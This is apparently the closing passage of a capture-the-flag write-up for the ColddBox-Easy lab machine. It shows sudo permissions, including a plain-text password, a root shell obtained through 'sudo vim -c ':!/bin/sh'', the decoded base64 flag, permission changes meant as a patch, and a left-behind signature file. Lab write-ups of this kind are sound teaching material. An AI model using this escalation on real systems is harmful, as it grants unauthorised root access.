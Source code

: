 1)  I see all privilegie such as root:
```
c0ldd@ColddBox-Easy:/$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```
2) Spawn a shell:
```
sudo vim -c ':!/bin/sh'

:!/bin/sh
# whoami
whoami
root
#  
```
3) I get the root.txt:
```
# cd /root/              
cd /root/
# ls
ls
root.txt
# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
# 
```
4) I decode the flag:
```
┌──(kali㉿kali)-[~]
└─$ nano password.txt
┌──(kali㉿kali)-[~]
└─$ base64 --decode password.txt
¡Felicidades, máquina completada!                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

---------
## Patch the machine vulnerabilities

1) I change all the permess that they generate the privilege escalation:
```
# chmod a=-x-w-r /usr/bin/vim
chmod a=-x-w-r /usr/bin/vim
# chmod u=+x+w+r /usr/bin/vim
chmod u=+x+w+r /usr/bin/vim
# chmod a=-x-w-r /usr/bin/ftp
chmod a=-x-w-r /usr/bin/ftp
# chmod a=-x-w-r /bin/chmod
chmod a=-x-w-r /bin/chmod
# 
```
2) I leave my signature:
```
# cd /home/c0ldd
cd /home/c0ldd
# touch README.txt
touch README.txt
# echo 'CyberSpider  has been here, Now I am root :)' > README.txt
echo 'CyberSpider  has been here, Now I am root :)' > README.txt
# cat README.txt
cat README.txt
CyberSpider  has been here, Now I am root :)
# chmod a=+r README.txt
```